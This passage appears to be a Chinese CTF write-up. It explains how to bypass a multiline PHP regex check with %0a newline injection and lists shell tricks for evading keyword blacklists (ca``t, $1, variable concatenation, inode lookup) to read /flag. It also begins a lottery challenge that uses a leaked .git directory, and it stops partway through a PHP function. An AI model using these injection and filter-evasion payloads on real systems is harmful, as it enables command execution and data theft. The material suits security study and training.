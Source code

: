 跨行检测可以用换行符`%0a`绕过，由于只允许纯数字，但是要想命令执行很明显我们需要字母。可以注意到preg_match开启了/m，也就是开启了多行匹配，因此`^`和`$`不只是匹配字符串的开头和结尾，也匹配一行的开头和一行的结尾。因此我们利用%0a换一行，把命令写在其他的行，这样这个正则匹配就只能匹配到第一行了。

继续更改payload，test成功进入

```
stuff[4294967296]=admin&stuff[1]=user&num=1%0a_test
```

最后就是绕过黑名单了，我们可以用 "\`" 绕过

> ca''t 
>
> cat""t 
>
> ca\t
>
> ca``t
>
> ca$1t
>
> $*和$@，$x(x 代表 1-9),${x}(x>=10) :比如ca${21}t a.txt表示cat a.txt 在没有传入参数的情况下,这些特殊字符默认为空

payload

```
stuff[4294967296]=admin&stuff[1]=user&num=1%0als /		#先看看根目录，发现路径权为/flag

stuff[4294967296]=admin&stuff[1]=user&num=1%0aca``t /fl``ag		#第一种构造
stuff[4294967296]=admin&stuff[1]=user&num=1%0aca$1t /fl$1ag		#“$1”第二种构造

stuff[4294967296]=admin&stuff[1]=user&num=1%0als / -i		#利用文件的inode号读取,先获取flag文件号
stuff[4294967296]=admin&stuff[1]=user&num=1%0atac `find / -inum 1575549`	#tac读取文件号

stuff[4294967296]=admin&stuff[1]=user&num=1%0aa=f;b=lag;tac /$a$b	#字符串拼接
stuff[4294967296]=admin&stuff[1]=user&num=1%0aa=f;b=lag;ca``t /$a$b
```





### lottery

#### 考点：git泄露，代码审计

游戏规则还是比较简单的，注册用户，购买彩票，拿到足够的钱，购买flag。一开始也想过bp抓包或者js调试，但好像都不太行。扫了一下后台发现有robots.txt

![VPp3sH.png](https://s2.ax1x.com/2019/05/23/VPp3sH.png)

ok，我们直接拿githack拿到代码，经过查找，最后的关键代码在api.php里面，我们看到这里有一个buy函数

```php
function buy($req){
	require_registered();
	require_min_money(2);

	$money = $_SESSION['money'];
	$numbers = $req['numbers'];
	$win_numbers = random_win_nums();
	$same_count = 0;
	for($i=0; $i<7; $i++){
		if($numbers[$i] == $win_numbers[$i]){
			$same_count++;
		}
	}
```

